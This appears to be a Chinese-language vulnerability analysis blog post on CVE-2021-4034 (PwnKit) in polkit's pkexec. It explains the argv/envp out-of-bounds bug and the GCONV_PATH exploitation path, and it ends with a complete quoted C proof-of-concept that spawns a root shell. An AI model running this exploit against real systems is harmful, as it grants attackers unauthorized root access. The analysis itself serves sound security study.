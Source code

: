 ```yaml
---
title: CVE-2021-4034
date: 2022-01-27 20:53:00
tags: CVE-2021-4034
category: CVE Vulnerability
---
```


漏洞原文来自 [Qualys Security Blog](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) 

PoC1 来自 https://github.com/berdav/CVE-2021-4034

PoC2 来自 https://github.com/arthepsy/CVE-2021-4034

## 漏洞描述

Polkit 是用于在类 Unix 操作系统中控制系统范围特权的组件。它为非特权进程提供了与特权进程进行通信的有组织的方式。

Polkit 的 pkexec 存在本地权限提升漏洞，已获得普通权限的攻击者可通过此漏洞获取root权限。

该漏洞CVSS评分：7.8，危害等级：高危

漏洞利用难度低，最早引入问题的 commit 来自 2009 年，影响版本范围远超去年的 sudo 漏洞。

漏洞作者在 Ubuntu、Debian、Fedora 和 CentOS 的默认安装环境上均测试通过。

## 影响范围

由于Polkit为系统预装工具，所有主流Linux版本均受影响

## 漏洞分析

pkexec为polkit其中的一个组件，允许用户以另一个用户身份执行命令，其使用有点类似于sudo。

```bash
$ pkexec
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
```

因此其权限具有SUID，在执行时程序拥有文件所有者权限，也就是root。

```bash
$ ll /usr/bin/pkexec
-rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec*
```

首先对其还未修复的代码进行审计，这里选用[尚未更新的源码](https://github.com/wingo/polkit/blob/master/src/programs/pkexec.c)进行分析。在main函数中，在533-567行处理命令行参数，for 循环从下标 1 开始遍历 argv[]。

```c
int
main (int argc, char *argv[])
{
    ...
    for (n = 1; n < (guint) argc; n++)
    {
        ...
    }
    ...
    path = g_strdup (argv[n]);
    ...
    if (path[0] != '/')
    {
        s = g_find_program_in_path (path);
        ...
        argv[n] = path = s;
        ...
    }
    ...
    if (clearenv () != 0)
    {
      g_printerr ("Error clearing environment: %s\n", g_strerror (errno));
      goto out;
    }
    ...
}
```

![image-20220127202308142](assets/image-20220127202308142.png)

然后在610行开始，会获取PROGRAM参数名称，也就是需要执行的程序。

![image-20220127202452874](assets/image-20220127202452874.png)

而问题就出现在这`n=1`上，当执行pkexec不传递任何参数时将会发生：

1.  在第 534 行，整数 n 永久设置为 1
2.  在第 610 行，从 argv[1] 越界读取指针路径
3.  在第 639 行，指针 s 被越界写入 argv[1]

但巧合的是，当执行程序时，内核会将参数，环境字符串和指针（argv 和 envp）复制到新程序堆栈的末尾

```
|---------+---------+-----+------------|---------+---------+-----+------------| 
| argv[0] | argv[1] | ... | argv[argc] | envp[0] | envp[1] | ... | envp[envc] | 
|----|----+----|----+-----+-----|------|----|----+----|----+-----+-----|------| 
```

如此看来，当越界读写argv[1]时，实际上读写的是envp[0]的值。

1.  假设我们执行pkexec，此时`argc=0`，`envp={"xxx"}`
2.  610行，程序会读取argv[1]到path变量中，也就是"xxx"
3.  632行，`s = g_find_program_in_path (path)`找到该程序的绝对路径，假设为/usr/bin/xxx
4.  639行，程序将s写入argv[1]和path，从而覆盖了第一个环境变量。此时envp也就变成了`{"/usr/bin/xxx"}`

如果把环境变量稍加更改，当`envp={"PATH=folder_name=."}`，在folder目录中放置一个可执行文件`lol`，最后在越界读写后`envp[0]`将会变成`folder_name=./lol`。

因此，这种越界读写会将一个新的不安全的环境变量引入pkexec的环境中（执行前所做的过滤将功亏一篑）

但是，程序的本身还是十分看中安全问题的，在701行程序会清除所有环境变量。也就是说，所有的漏洞利用需要在701行之前完成（不要想着LD_PRELOAD啦）。

![image-20220127204623040](assets/image-20220127204623040.png)

## 漏洞利用

在pkexec中多次使用了g_printerr()函数，该函数是调用GLib的函数。但是如果环境变量CHARSET不是UTF-8，g_printerr()将会调用glibc的函数iconv_open()，来将消息从UTF-8转换为另一种格式。

iconv_open函数的执行过程为：iconv_open函数首先会找到系统提供的gconv-modules配置文件，这个文件中包含了各个字符集的相关信息存储的路径，每个字符集的相关信息存储在一个.so文件中，即gconv-modules文件提供了各个字符集的.so文件所在位置，之后会调用.so文件中的gconv()与gonv_init()函数。

如果我们改变了系统的GCONV_PATH环境变量，也就能改变gconv-modules配置文件的位置，从而执行一个恶意的so文件实现任意命令执行。

具体的利用过程如下：

1.  首先一个gconv-modules配置文件，放置在./xxx目录下，其内容指向一个准备好的恶意so文件。
2.  创建可执行文件xxx，放置在./GCONV_PATH=.目录下，注意目录名称为`GCONV_PATH=.`
3.  然后调用pkexec，argc=0，envp=`{"xxx","PATH=GCONV_PATH=.","LC_MESSAGES=en_US.UTF-8"}`
4.  pkexec执行到610行，path=xxx
5.  pkexec执行到632行，找到xxx的具体位置，因为我们制定了环境变量`PATH=GCONV_PATH=.`，所以会找到xxx的具体位置为`GCONV_PATH=./xxx`
6.  pkexec执行到636行，envp[0] = argv[1] = path= `GCONV_PATH=./xxx`，此时envp为`{"GCONV_PATH=./xxx","PATH=GCONV_PATH=.","LC_MESSAGES=en_US.UTF-8"}`
7.  pkexec执行到643行，调用g_printerr，从而调用iconv_open()函数，找到gconv-modules配置文件：./xxx/gconv-modules，然后找到so文件，最终执行so文件。

我们只要在so文件的gonv_init()函数中，执行`/bin/sh`即可拿到一个root权限的shell。

EXP展示（来自PoC2）：

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

## 参考

https://saucer-man.com/information_security/876.html

https://mp.weixin.qq.com/s/3rnkcRfX_BxzlVzp0stQRw

感谢swing师傅的指导